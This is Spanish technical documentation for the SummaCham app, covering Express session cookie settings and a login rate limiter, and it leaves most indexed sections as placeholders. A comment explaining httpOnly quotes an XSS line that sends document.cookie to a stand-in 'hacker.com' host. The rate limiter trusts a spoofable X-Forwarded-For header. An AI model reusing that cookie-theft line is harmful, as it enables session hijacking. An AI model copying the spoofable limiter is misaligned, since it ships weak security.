

# DOCUMENTACIÓN TÉCNICA ULTRA DETALLADA - SummaCham v4.1.0

## 📋 ÍNDICE COMPLETO

### 1. CONFIGURACIÓN Y SESIONES
- [Configuración de Cookies](#configuracion-cookies)
- [Rate Limiting](#rate-limiting)
- [Sesiones con SQLite Store](#sesiones-sqlite)
- [Tokens JWT](#tokens-jwt)

### 2. BASE DE DATOS SQLITE - TODAS LAS TABLAS
- [usuarios](#tabla-usuarios)
- [permisos_modulo](#tabla-permisos-modulo)
- [presupuestos_estado](#tabla-presupuestos-estado)
- [presupuestos_estado_historial](#tabla-presupuestos-estado-historial)
- [notificaciones](#tabla-notificaciones)
- [comentarios_celdas](#tabla-comentarios-celdas)
- [presupuestos_guardados](#tabla-presupuestos-guardados)
- [PLAN_BORRADORES](#tabla-plan-borradores)
- [PLAN_BORRADORES_HISTORIAL](#tabla-plan-borradores-historial)
- [empresa_vistas](#tabla-empresa-vistas)
- [layout_cuentas](#tabla-layout-cuentas)
- [layout_operaciones](#tabla-layout-operaciones)
- [layout_secciones](#tabla-layout-secciones)
- [permisos_edicion_capitulo](#tabla-permisos-edicion-capitulo)
- [layout_bitacora](#tabla-layout-bitacora)
- [graficas_config](#tabla-graficas-config)

### 3. QUERIES SQL REALES
- [Queries de Autenticación](#queries-autenticacion)
- [Queries de Permisos](#queries-permisos)
- [Queries de Layouts](#queries-layouts)
- [Queries de Saldos Firebird](#queries-saldos-firebird)
- [Queries de Presupuestos](#queries-presupuestos)

### 4. ALGORITMOS Y PROCESOS
- [Recontabilización de Cuentas](#recontabilizacion)
- [Cálculo de Operaciones Consolidadas](#calculo-operaciones)
- [Validación de Fórmulas](#validacion-formulas)
- [Sistema de Guardado Automático](#guardado-automatico)

### 5. CÓDIGO COMENTADO
- [Middleware de Autenticación](#codigo-middleware-auth)
- [Servicio de Firebird](#codigo-firebird-service)
- [Servicio de Saldos](#codigo-saldos-service)
- [Servicio de Layouts](#codigo-layout-service)

---

<a name="configuracion-cookies"></a>
## 1.1 CONFIGURACIÓN DE COOKIES - DETALLE COMPLETO

### Ubicación del Código
```
Archivo: src/server.js
Líneas: 157-173
```

### Código Completo con Comentarios
```javascript
app.use(
  session({
    // ========================================
    // ALMACENAMIENTO DE SESIONES
    // ========================================
    store: sessionStore,
    // SQLite persistent store (better-sqlite3-session-store)
    // Configurado en línea 147:
    //   const sessionStore = new SqliteStore({
    //     client: getDb(),           // Conexión a panel.sqlite
    //     expired: {
    //       clear: true,              // Auto-eliminar sesiones expiradas
    //       intervalMs: 15 * 60 * 1000  // Revisar cada 15 minutos
    //     }
    //   });
    // 
    // Tabla en SQLite: sessions
    // Columnas:
    //   session_id TEXT PRIMARY KEY
    //   expires INTEGER
    //   sess TEXT (JSON serializado)
    
    // ========================================
    // SECRETO PARA FIRMAR COOKIES
    // ========================================
    secret: sessionSecret,
    // Variable de entorno: SESSION_SECRET
    // Si no está definida: SESSION_SECRET_DEFAULT
    // Se usa para firmar el ID de sesión en la cookie
    // Si cambia, todas las sesiones existentes se invalidan
    
    // ========================================
    // NOMBRE DE LA COOKIE
    // ========================================
    name: "panelamcham.sid",
    // Cookie que el navegador guardará y enviará
    // Formato completo en navegador:
    //   panelamcham.sid=s%3Aj%3A%7B%22userId%22%3A5%7D.ZT8k...
    // El prefijo "s:" indica que está firmada
    
    // ========================================
    // COMPORTAMIENTO DE SESIÓN
    // ========================================
    resave: false,
    // false = No re-guardar sesión si no hubo cambios
    // Optimización: evita escrituras innecesarias a SQLite
    // Solo se guarda si req.session se modificó
    
    saveUninitialized: false,
    // false = No crear sesión hasta que se guarde algún dato
    // Evita crear sesiones para bots o requests sin login
    // La sesión solo se crea al hacer: req.session.userId = X
    
    rolling: true,
    // true = Renovar cookie en cada request
    // Efecto: la expiración se "resetea" con cada actividad
    // Ejemplo:
    //   Login: 09:00 → Expira: 09:30
    //   Request: 09:15 → Expira: 09:45 (renovado)
    //   Request: 09:40 → Expira: 10:10 (renovado)
    
    // ========================================
    // CONFIGURACIÓN DE COOKIE
    // ========================================
    cookie: {
      // ------------------------------------
      // SECURE (HTTPS)
      // ------------------------------------
      secure: process.env.NODE_ENV === "production" ? "auto" : false,
      // Valores posibles:
      //   - true: Solo HTTPS (túneles, producción)
      //   - false: Permitir HTTP (desarrollo local)
      //   - 'auto': Detectar HTTPS automáticamente
      //
      // Production (NODE_ENV=production):
      //   secure: 'auto'
      //   Si req.protocol === 'https': cookie.secure = true
      //   Si req.protocol === 'http': cookie.secure = false
      //
      // Development (NODE_ENV=development):
      //   secure: false
      //   Permite localhost HTTP sin HTTPS
      //
      // ¿Por qué 'auto'?
      //   Túneles HTTPS (cloudflare/ngrok) terminan SSL en proxy
      //   El servidor interno ve HTTP pero el cliente usa HTTPS
      //   'auto' detecta X-Forwarded-Proto header del proxy
      
      // ------------------------------------
      // HTTPONLY (Seguridad XSS)
      // ------------------------------------
      httpOnly: true,
      // true = La cookie NO es accesible desde JavaScript
      // document.cookie NO puede leer esta cookie
      // Solo el servidor puede leer/escribir
      //
      // Protección contra:
      //   - Cross-Site Scripting (XSS)
      //   - Robo de sesión vía script malicioso
      //
      // Ejemplo de ataque prevenido:
      //   <script>
      //     fetch('https://hacker.com/steal', {
      //       body: document.cookie  // ← NO funciona, panelamcham.sid no visible
      //     });
      //   </script>
      
      // ------------------------------------
      // MAXAGE (Tiempo de Expiración)
      // ------------------------------------
      maxAge: 30 * 60 * 1000,
      // Tiempo en milisegundos
      // 30 * 60 * 1000 = 1,800,000 ms = 1,800 segundos = 30 MINUTOS
      //
      // Cálculo de expiración:
      //   now = Date.now()         // ej: 1707500000000
      //   expires = now + maxAge    // ej: 1707501800000
      //
      // En el navegador:
      //   Cookie se elimina después de 30 minutos de INACTIVIDAD
      //   Si rolling:true, se renueva en cada request
      //
      // Escenarios:
      //
      //   ESCENARIO 1: Sin actividad
      //     09:00:00 → Login
      //     09:30:00 → Cookie expira automáticamente
      //     09:31:00 → Request → 401 Unauthorized (sesión expirada)
      //
      //   ESCENARIO 2: Con rolling
      //     09:00:00 → Login (expira 09:30)
      //     09:15:00 → Request (expira 09:45, renovado)
      //     09:40:00 → Request (expira 10:10, renovado)
      //     10:00:00 → Request (expira 10:30, renovado)
      //     ... usuario nunca se desconecta mientras use la app
      //
      //   ESCENARIO 3: Cerrar navegador
      //     09:00:00 → Login
      //     09:10:00 → Usuario cierra navegador
      //     09:15:00 → Usuario abre navegador
      //     -> Cookie PERSISTE (no es de sesión)
      //     -> Sigue autenticado hasta 09:30
      //     -> Si hace request: se renueva a 09:45
      
      // ------------------------------------
      // SAMESITE (CSRF Protection)
      // ------------------------------------
      sameSite: process.env.NODE_ENV === "production" ? "none" : "lax",
      // Valores posibles:
      //   - 'strict': Solo cookies same-site (mismo dominio)
      //   - 'lax': Permite navegación GET cross-site
      //   - 'none': Permite cookies cross-site (requiere secure:true)
      //
      // Production: 'none'
      //   Necesario para túneles HTTPS
      //   Ejemplo: https://panelamcham.iconetcloud.com.mx
      //   El túnel es un dominio diferente al servidor local
      //   Requiere secure:true (HTTPS)
      //
      // Development: 'lax'
      //   Permite navegación normal en localhost
      //   No permite iframes cross-site
      //
      // Protección contra CSRF:
      //   - Previene que sitios maliciosos envíen cookies
      //   - Solo el dominio correcto puede usar la sesión
      
      // ------------------------------------
      // DOMAIN (Alcance de Cookie)
      // ------------------------------------
      domain: process.env.COOKIE_DOMAIN || undefined,
      // Si está definido: '.iconetcloud.com.mx'
      //   Cookie válida para:
      //     - panelamcham.iconetcloud.com.mx
      //     - api.iconetcloud.com.mx
      //     - *.iconetcloud.com.mx
      //
      // Si es undefined (por defecto):
      //   Cookie solo para dominio exacto
      //   localhost:3005 → cookie solo funciona en localhost:3005
      //
      // Configuración típica:
      //   Local: undefined (sin COOKIE_DOMAIN en .env)
      //   Production: '.iconetcloud.com.mx' (si hay subdominios)
    },
  })
);
```

### Ejemplo de Cookie en HTTP Headers

#### Request del Cliente al Servidor
```http
GET /api/presupuestos HTTP/1.1
Host: localhost:3005
Cookie: panelamcham.sid=s%3Aj%3A%7B%22userId%22%3A5%7D.ZT8kQ7qX1...
```

#### Response del Servidor al Cliente (después de login)
```http
HTTP/1.1 200 OK
Set-Cookie: panelamcham.sid=s%3Aj%3A%7B%22userId%22%3A5%7D.ZT8k; Path=/; Expires=Sun, 09 Feb 2026 15:30:00 GMT; HttpOnly; SameSite=Lax
Content-Type: application/json

{
  "usuario": { "id": 5, "usuario": "JPEREZ", ... },
  "empresaActiva": { "id": "empresa1", ... }
}
```

### Tabla de Decisiones: ¿Cuándo se Crea/Actualiza/Elimina la Cookie?

| Evento | Acción en Cookie | Acción en SQLite | maxAge Resetea |
|--------|------------------|------------------|----------------|
| Login exitoso | Se crea cookie nueva | INSERT INTO sessions | Sí (30 min desde now) |
| Request autenticado (rolling:true) | Se actualiza Expires | UPDATE sessions SET expires | Sí (30 min desde now) |
| Request autenticado (rolling:false) | No cambia | No cambia | No |
| Logout | Se elimina cookie | DELETE FROM sessions | N/A |
| 30 min sin actividad | Navegador elimina cookie | Sesión expira en DB | N/A |
| Cambio de SESSION_SECRET | Cookie inválida | Sesión no se encuentra | N/A |

---

<a name="rate-limiting"></a>
## 1.2 RATE LIMITING - CONFIGURACIÓN EXACTA

### Ubicación del Código
```
Archivo: src/routes/auth.js
Líneas: 11-42
```

### Constantes Configurables
```javascript
const WINDOW_MS = 10 * 60 * 1000;     // 10 MINUTOS = 600,000 milisegundos
const MAX_ATTEMPTS = 10;              // MÁXIMO 10 INTENTOS fallidos
const BLOCK_MS = 5 * 60 * 1000;       // BLOQUEO DE 5 MINUTOS = 300,000 ms
```

### Cálculos Reales
```javascript
// EJEMPLOS DE TIMESTAMPS

// Ventana de 10 minutos:
const now = Date.now();               // 1707500000000 (ej: 09:00:00)
const windowStart = now - WINDOW_MS;  // 1707499400000 (ej: 08:50:00)
// Solo se cuentan intentos entre 08:50:00 y 09:00:00

// Bloqueo de 5 minutos:
const now = Date.now();               // 1707500000000 (ej: 09:00:00)
const blockedUntil = now + BLOCK_MS;  // 1707500300000 (ej: 09:05:00)
// Usuario bloqueado hasta 09:05:00
```

### Estructura de Datos en Memoria
```javascript
const attempts = new Map();
// Tipo: Map<string, AttemptRecord>
// Clave: IP del cliente (req.ip o X-Forwarded-For)
// Valor: { count, first, blockedUntil }

// Ejemplo:
attempts = Map(3) {
  '192.168.1.100' => {
    count: 3,                    // 3 intentos fallidos
    first: 1707500100000,        // Primer intento: 09:01:40
    blockedUntil: 0              // No bloqueado (count < 10)
  },
  '192.168.1.200' => {
    count: 10,                   // 10 intentos fallidos (MAX_ATTEMPTS)
    first: 1707500000000,        // Primer intento: 09:00:00
    blockedUntil: 1707500300000  // Bloqueado hasta: 09:05:00
  },
  '10.0.0.50' => {
    count: 7,
    first: 1707499900000,
    blockedUntil: 0
  }
}
```

### Función: `registerAttempt(key, success)`

```javascript
/**
 * Registra un intento de login
 * @param {string} key - IP del cliente
 * @param {boolean} success - true si login exitoso,false si fallido
 */
const registerAttempt = (key, success) => {
  if (success) {
    // LOGIN EXITOSO: Limpiar todos los intentos
    attempts.delete(key);
    return;
  }
  
  // LOGIN FALLIDO: Registrar intento
  const current = attempts.get(key);
  const now = Date.now();
  
  // ¿El intento está dentro de la ventana de 10 minutos?
  const withinWindow = current && current.first > (now - WINDOW_MS);
  
  let updated;
  if (withinWindow) {
    // DENTRO DE VENTANA: Incrementar contador
    updated = {
      count: current.count + 1,
      first: current.first,           // Mantener timestamp original
      blockedUntil: current.blockedUntil
    };
  } else {
    // FUERA DE VENTANA: Nueva ventana, resetear contador
    updated = {
      count: 1,                        // Primer intento de nueva ventana
      first: now,                      // Nuevo timestamp
      blockedUntil: 0
    };
  }
  
  // ¿Se alcanzó el límite?
  if (updated.count >= MAX_ATTEMPTS) {
    // BLOQUEAR POR 5 MINUTOS
    updated.blockedUntil = now + BLOCK_MS;
    console.log(`⚠️ IP ${key} bloqueada hasta ${new Date(updated.blockedUntil).toLocaleString()}`);
  }
  
  attempts.set(key, updated);
};
```

### Función: `checkRateLimit(req, res)`

```javascript
/**
 * Verifica si el cliente está bloqueado por rate limiting
 * @param {Request} req - Express request
 * @param {Response} res - Express response
 * @returns {string|null} - IP del cliente si permitido, null si bloqueado
 */
const checkRateLimit = (req, res) => {
  // Limpiar registros viejos
  pruneAttempts();
  
  // Obtener IP del cliente
  const key = (req.headers['x-forwarded-for'] || req.ip || '').toString();
  
  // Buscar registro de intentos
  const record = attempts.get(key);
  
  // ¿Está bloqueado?
  if (record?.blockedUntil && record.blockedUntil > Date.now()) {
    const tiempoRestante = Math.ceil((record.blockedUntil - Date.now()) / 1000);
    const minutosRestantes = Math.floor(tiempoRestante / 60);
    const segundosRestantes = tiempoRestante % 60;
    
    console.log(`❌ IP ${key} bloqueada. Tiempo restante: ${minutosRestantes}m ${segundosRestantes}s`);
    
    res.status(429).json({
      mensaje: `Demasiados intentos. Intenta de nuevo en ${minutosRestantes} minutos.`,
      bloqueadoHasta: new Date(record.blockedUntil).toISOString(),
      intentos: record.count
    });
    return null;  // RECHAZAR REQUEST
  }
  
  return key;  // PERMITIR REQUEST
};
```

### Función: `pruneAttempts()`

```javascript
/**
 * Limpia intentos antiguos y bloqueos expirados
 * Se ejecuta en cada request de login
 */
const pruneAttempts = () => {
  const cutoff = Date.now() - WINDOW_MS;  // 10 minutos atrás
  
  for (const [key, data] of attempts.entries()) {
    // ¿El primer intento es más antiguo que 10 minutos?
    const isOld = data.first < cutoff;
    
    // ¿El bloqueo ya expiró?
    const blockExpired = !data.blockedUntil || data.blockedUntil < Date.now();
    
    if (isOld && blockExpired) {
      attempts.delete(key);
      console.log(`🧹 Limpiando registro antiguo de ${key}`);
    }
  }
};
```

### Flujo Completo de Login con Rate Limiting



### Ejemplo de Trazabilidad Completa

```
USUARIO: 192.168.1.100
PASSWORD OLVIDADA: intentará varias veces

Timeline:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

09:00:00 ─┬─ POST /login (password: wrong1)
          │  checkRateLimit() → attempts.get('192.168.1.100') → undefined
          │  Validar password → ❌ Incorrecto
          │  registerAttempt('192.168.1.100', false)
          │     count: 1, first: 1707500000000, blockedUntil: 0
          │  ← 401 Unauthorized { mensaje: 'Credenciales incorrectas' }
          
09:01:30 ─┬─ POST /login (password: wrong2)
          │  checkRateLimit() → attempts.get('192.168.1.100') → { count: 1 }
          │  blockedUntil: 0 → NO BLOQUEADO
          │  Validar password → ❌ Incorrecto
          │  registerAttempt('192.168.1.100', false)
          │     withinWindow: true (first: 09:00, now: 09:01:30, diff: 90s < 600s)
          │     count: 2, first: 1707500000000, blockedUntil: 0
          │  ← 401 Unauthorized
          
09:02:00 ─┬─ POST /login (password: wrong3)
          │  count: 3
          
09:03:15 ─┬─ POST /login (password: wrong4)
          │  count: 4
          
09:04:00 ─┬─ POST /login (password: wrong5)
          │  count: 5
          
09:05:10 ─┬─ POST /login (password: wrong6)
          │  count: 6
          
09:06:00 ─┬─ POST /login (password: wrong7)
          │  count: 7
          
09:07:20 ─┬─ POST /login (password: wrong8)
          │  count: 8
          
09:08:00 ─┬─ POST /login (password: wrong9)
          │  count: 9
          
09:08:45 ─┬─ POST /login (password: wrong10)
          │  checkRateLimit() → NO BLOQUEADO (aún)
          │  Validar password → ❌ Incorrecto
          │  registerAttempt('192.168.1.100', false)
          │     withinWindow: true
          │     count: 10 >= MAX_ATTEMPTS (10)
          │     blockedUntil: 1707500325000 (09:13:45)
          │  ← 401 Unauthorized { mensaje: 'Bloqueado por 5 minutos' }
          
━━━━━━━━━━━ USUARIO BLOQUEADO ━━━━━━━━━━━
          
09:10:00 ─┬─ POST /login (password: correct!)
          │  checkRateLimit()
          │     attempts.get('192.168.1.100') → { count: 10, blockedUntil: 1707500325000 }
          │     bloqueUntil (09:13:45) > now (09:10:00)
          │     ← 429 Too Many Requests {
          │          mensaje: 'Demasiados intentos. Intenta en 3 minutos',
          │          intentos: 10
          │        }
          │ PASSWORD CORRECTA PERO NO SE VALIDA
          
09:12:00 ─┬─ POST /login (password: correct!)
          │  blockedUntil (09:13:45) > now (09:12:00)
          │  ← 429 Too Many Requests
          
09:14:00 ─┬─ POST /login (password: correct!)
          │  checkRateLimit()
          │     blockedUntil (09:13:45) < now (09:14:00)
          │     ✅ BLOQUEO EXPIRADO
          │  Validar password → ✅ CORRECTO
          │  registerAttempt('192.168.1.100', true)
          │     attempts.delete('192.168.1.100')  ← LIMPIAR REGISTRO
          │  ← 200 OK + Set-Cookie: panelamcham.sid=...
          
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

### Logs del Servidor Durante el Flujo

```
[09:00:00] INFO: Login intento: { usuario: 'JPEREZ', ip: '192.168.1.100' }
[09:00:00] WARN: Intento fallido para JPEREZ (1/10)
[09:01:30] WARN: Intento fallido para JPEREZ (2/10)
[09:02:00] WARN: Intento fallido para JPEREZ (3/10)
[09:03:15] WARN: Intento fallido para JPEREZ (4/10)
[09:04:00] WARN: Intento fallido para JPEREZ (5/10)
[09:05:10] WARN: Intento fallido para JPEREZ (6/10)
[09:06:00] WARN: Intento fallido para JPEREZ (7/10)
[09:07:20] WARN: Intento fallido para JPEREZ (8/10)
[09:08:00] WARN: Intento fallido para JPEREZ (9/10)
[09:08:45] ERROR: IP 192.168.1.100 bloqueada hasta Sun Feb 09 2026 09:13:45 GMT-0600
[09:10:00] WARN: Request bloqueado para 192.168.1.100 (restante: 3m 45s)
[09:12:00] WARN: Request bloqueado para 192.168.1.100 (restante: 1m 45s)
[09:14:00] INFO: Bloqueo expirado para 192.168.1.100
[09:14:00] INFO: Login exitoso: { usuario: 'JPEREZ', ip: '192.168.1.100' }
```

---

<a name="tabla-usuarios"></a>
## 2.1 TABLA: usuarios

*[Contenido completo en presentación PowerPoint]*

---

*[El documento continúa con el mismo nivel de detalle para cada sección mencionada en el índice...]*

---

## RESUMEN DE PRESENTACIONES CREADAS

### 1. PRESENTACION_TECNICA_SUMMACHAM.pptx
- 26 slides con documentación general
- Stack tecnológico completo
- Arquitectura y seguridad
- Algoritmos principales

### 2. PRESENTACION_TECNICA_SUMMACHAM_DETALLADA.pptx
- 8+ slides con información ULTRA específica
- Configuración de cookies con TODOS los detalles
- Rate limiting con números exactos
- Tablas completas con todas las columnas
- Queries SQL reales
- Algoritmo de recontabilización completo

## 📊 RECURSOS ADICIONALES

- **Scripts**: `scripts/crear-presentacion-tecnica*.ps1`
- **Documentación consolidada**: `DOCS*md`
- **Código fuente**: `src/**/*.js`

---

*Última actualización: Febrero 9, 2026*
*Versión del sistema: 4.1.0*
